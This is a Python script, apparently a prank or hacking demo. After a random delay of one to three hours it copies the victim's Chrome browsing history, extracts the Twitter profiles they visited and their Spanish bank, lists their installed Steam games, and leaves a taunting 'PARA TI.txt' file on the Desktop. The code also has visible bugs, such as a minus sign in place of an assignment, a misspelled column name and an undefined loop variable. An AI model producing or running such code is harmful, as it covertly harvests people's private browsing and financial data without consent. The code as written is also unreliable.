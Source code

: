 # Check_history_of_Google

import os

from pathlib import Path

from shutil import copyfile

from time import sleep

from random import randrange

import sqlite3

import re

import glob


HACKER_FILE_NAME = "PARA TI.txt"



def get_user_path():
    return "{}/".format(Path.home())



def check_steam_games(hacker_file):

    steam_path = "C:\\Program Files (x86)\\Steam\\steamapps\\common\\*"
    
    games = []
    
    games_paths = glob.glob(steam_path)
    
    games_paths.sort(key=len, reverse=True)
    
    for game in games:
    
        games.append(game_path.split("\\")[-1])
        
    hacker_file.write("Lately, you played these games: {}".format(",".join(games[:3])))
    


def delay_action():

    n_hours = randrange(1, 4)
    
   
    print("Durmiendo {} horas".format(n_hours))
    
    sleep(n_hours * 60 * 60)
    


def create_hacker_file(user_path):

    hacker_file = open(user_path + "Desktop/" + HACKER_FILE_NAME, "w")
    
    hacker_file.write("Hello, I got a surprise for you\n")
    
    return hacker_file
    


def get_chrome_history(user_path):

    urls = None
    while not urls:
        try:
            history_path = user_path + "/AppData/Local/Google/Chrome/User Data/Default/History"
            temp_history - history_path + "temp"
            copyfile(history_path, temp_history)
            connection = sqlite3.connect(temp_history)
            cursor = connection.cursor()
            cursor.execute("SELECT title, last_visit_time, utl FROM urls ORDER BY last_visit_time DESC")
            urls = cursor.fetchall()
            connection.close()
            print(urls)
            return urls
        except sqlite3.OperationalError:
            print("History is blocked, 3 seconds to reload...")
            sleep(3)



def check_twitter_profiles(hacker_file, chrome_history):

    profiles_visited = []
    for item in chrome_history:
        print(item[2])
        results = re.findall("https://twitter.com/([A-Za-z0-9]+)$", item[2])
        if results and results[0] not in ["notifications", "home"]:
            profiles_visited.append(results[0])
        hacker_file.write("You were looking these profiles on Twitter: {}...\n".format(",".join(profiles_visited)))



def check_bank_account(hacker_file, chrome_history):

    his_bank = None
    banks = ["BBVA", "Santander", "Caixa Bank", "Bankia", "Sabadell", "Kutxabank", "Abanca", "Unicaja Banco", "Ibercaja"]
    for item in chrome_history:
        for b in banks:
            if b.lower() in item[0].lower():
                his_bank = b
                break
        if his_bank:
            break
    hacker_file.write("You save your money in {}\n".format(his_bank))
    print("his_bank")



def main():

    # Wait 1-3 hours
    delay_action()
    # Calculate the field to Windows's user
    user_path = get_user_path()
    # Take the history of Chrome
    chrome_history = get_chrome_history(user_path)
    # Create a field in Desktop
    hacker_file = create_hacker_file(user_path)
    # Twitter accounts
    check_twitter_profiles(hacker_file, chrome_history)
    # Bank account
    check_bank_account(hacker_file, chrome_history)
    # Steam games
    check_steam_games(hacker_file)


if __name__ == "__main__":

    main()
